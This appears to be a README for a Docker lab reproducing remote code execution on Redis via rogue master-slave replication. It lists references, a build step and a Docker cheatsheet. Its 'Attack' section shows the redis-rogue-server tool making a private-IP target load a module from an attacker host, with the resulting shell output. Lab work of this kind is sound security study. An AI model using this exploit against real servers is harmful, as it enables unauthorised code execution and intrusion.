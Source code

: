 02/10/2021
# Reference
Redis master-slave Installation

https://laptrinh.vn/books/redis/page/huong-dan-cai-dat-redis-master-slave-tren-centos-7

Redis attacks:

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

https://paper.seebug.org/977/

https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0

https://www.youtube.com/watch?v=Jmv-0PnoJ6c

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

https://github.com/n0b0dyCN/redis-rogue-server





# Build
```
.\start.bat
```
# Attack
```
root@attack-server:/opt/redis-rogue-server# python3 redis-rogue-server.py --rhost 192.168.0.4 --lhost 192.168.0.5
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.0.4:6379
[info] SERVER 192.168.0.5:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id
[>>] =☺uid=998(redis) gid=996(redis) groups=996(redis)
[<<] whoami
[>>] redis
```

# Docker command cheatsheet

Build image from Dockerfile
```
docker build -t redis-master .
docker run -itd --name redis-master redis-master
docker exec -it redis-master bash
```
Build docker-compose (create image, create and start container)
```
docker-compose up -d
```
Clean docker-compose (Stop container, delete container, delete image)
```
docker-compose down --rmi all
```
docker-compose
```
docker-compose ps
docker-compose stop
docker-compose start
```
clear build cache
```
docker builder prune
```